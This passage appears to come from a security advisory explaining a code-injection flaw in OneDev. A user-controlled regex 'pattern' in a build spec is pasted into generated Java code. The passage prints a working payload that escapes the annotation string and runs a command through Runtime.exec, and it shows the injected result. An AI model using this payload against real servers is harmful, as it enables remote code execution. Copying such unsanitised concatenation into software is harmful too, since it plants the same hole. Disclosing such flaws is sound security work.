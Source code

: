 <p>For example, for text parameters the class <a href="https://github.com/theonedev/onedev/blob/main/server-core/src/main/java/io/onedev/server/model/support/inputspec/textinput/TextInput.java">TextInput</a> is used, which dynamically builds fields and method annotations:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="n">buffer</span><span class="o">.</span><span class="na">append</span><span class="o">(</span><span class="s">"    @Pattern(regexp=\""</span> <span class="o">+</span> <span class="n">pattern</span> <span class="o">+</span> <span class="s">"\", message=\"Should match regular expression: "</span> <span class="o">+</span> <span class="n">pattern</span> <span class="o">+</span> <span class="s">"\")\n"</span><span class="o">);</span>
</code></pre></div></div>

<p>Where <code class="language-plaintext highlighter-rouge">pattern</code> can be controlled by the user as part of the build spec. For example, to execute arbitrary Groovy code, you can define the following pattern:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>  paramSpecs:
  - !TextParam
    name: test
    description: test
    allowEmpty: false
    pattern: foo") public String foo() {return "";}; static {Runtime.getRuntime().exec("touch
      /tmp/pwned1");} //
</code></pre></div></div>

<p>The payload used is:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>foo") public String foo() {return "";}; static {Runtime.getRuntime().exec("touch /tmp/pwned1");} //
</code></pre></div></div>

<p>Which, when injected, will result in:</p>

<div class="language-java highlighter-rouge"><div class="highlight"><pre class="highlight"><code><span class="o">...</span>
<span class="nd">@Pattern</span><span class="o">(</span><span class="n">regexp</span><span class="o">=</span><span class="s">"foo"</span><span class="o">)</span> <span class="kd">public</span> <span class="nc">String</span> <span class="nf">foo</span><span class="o">()</span> <span class="o">{</span><span class="k">return</span> <span class="s">""</span><span class="o">;};</span> <span class="kd">static</span> <span class="o">{</span><span class="nc">Runtime</span><span class="o">.</span><span class="na">getRuntime</span><span class="o">().</span><span class="na">exec</span><span class="o">(</span><span class="s">"touch /tmp/pwned1"</span><span class="o">);}</span> <span class="c1">// ", message="Should match regular expression: " foo") public String foo() {return "";}; static {Runtime.getRuntime().exec("touch /tmp/pwned1");} // ")\n");</span>
<span class="kd">public</span> <span class="nc">String</span> <span class="nf">input1</span><span class="o">()</span> <span class="o">{</span>
  <span class="o">...</span>
<span class="o">}</span>
</code></pre></div></div>

<p>When we remove the commented out text and sort it, we get:</p>

<div class="language-plaintext highlighter-rouge"><div class="highlight"><pre class="highlight"><code>@Pattern(regexp="foo") 
public String foo() {return "";}; 
static {Runtime.getRuntime().exec("touch /tmp/pwned1");}
public String input1() {
  ...
}
</code></pre></div></div>
